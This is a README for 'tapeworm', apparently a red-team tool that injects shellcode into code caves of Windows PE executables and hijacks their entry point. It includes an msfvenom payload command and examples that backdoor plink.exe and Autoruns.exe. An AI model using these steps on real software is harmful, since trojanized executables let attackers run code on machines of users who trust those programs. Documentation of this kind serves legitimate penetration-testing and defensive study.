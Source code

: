 # tapeworm - shellcode injector

Tapeworm injects your shellcode into the code cave at the end of the `.text` section of your PE file. The program will jump to your shellcode and resume execution afterwards. Tapeworm can start your shellcode in a new thread by injecting additional code that calls `CreateThread`.

## Installation

Just install the dependencies:

```bash
pip install -r requirements.txt
```

## Usage

```
usage: ./tapeworm.py [-h] -p PAYLOAD -i INPUT -o OUTPUT [options...]

required named arguments:
  -p PAYLOAD, --payload PAYLOAD
                        shellcode file
  -i INPUT, --input INPUT
                        input PE path
  -o OUTPUT, --output OUTPUT
                        output PE path

options:
  -h, --help            show this help message and exit
  -t, --use-create-thread
                        Run the shellcode in a new thread. Tapeworm will inject an
                        additional shellcode that will run CreateThread. The created
                        thread will run your shellcode immediately
  -a INJECTION_ADDRESS, --injection-address INJECTION_ADDRESS
                        RVA where the jump to the shellcode should be injected. 
                        If not specified the entry point of the PE will be used.
  -e EXTEND_CAVE, --extend-cave EXTEND_CAVE
                        Move the code cave start address EXTEND_CAVE bytes back.
                        This will result in EXTEND_CAVE last bytes of instructions in .text to be overwritten!
                        You may want to try this if the code cave is too small for your shellcode,
                        but it will make the main program break at some unexpected point.
```

### Examples

```bash
# generate some shellcode
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -o payload.bin
# inject it into plink.exe
./tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --use-create-thread
```

Sometimes injecting the `jmp <your-shellcode>` instruction at PE's entry point will crash the app if, for example, one of the replaced instructions contains a relocation (tapeworm won't edit them). In that case, run your favorite debugger, find some safe address to inject `jmp` to and pass its RVA via `--injection-address`:

```bash
./tapeworm.py \
  -p payload.bin \
  -i Autoruns.exe \
  -o injected_Autoruns.exe \
  --injection-address 'd34db'
```

If the code cave is too small for your shellcode, you may try to extend it by passing the amount of additional bytes with `-e/--extend-cave`. This will overwrite some instructions at the end of the `.text` section and will probably make the original program crash at some point. Example:

```bash
./tapeworm.py \
  -p calc64.bin \
  -i Autoruns64.exe \
  -o injected_Autoruns64.exe \
  --use-create-thread \
  --injection-address 105014 \
  -e 45
```

If you run tapeworm without `-e` it will prompt you about the minimal value needed to extend the cave.

## What does it do?

It tries to inject your shellcode into the code cave at the end of the `.text` section.

Then it alters a few first instructions of your PE's entry point (or the instructions at the address passed via the `--injection-address` switch) to jump to the shellcode.

After the shellcode is executed, registers and flags are restored and execution is resumed.

If you pass `--use-create-thread`, your shellcode will be ran in a new thread. Tapeworm will inject additional shellcode that runs `CreateThread`.

**NOTE**: The 32-bit asm code that calls `CreateThread` is based on the code from [this blog post by Ilia Dafchev](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html). The 64-bit version is based on the code [this blog post by Nytro Security](https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/).
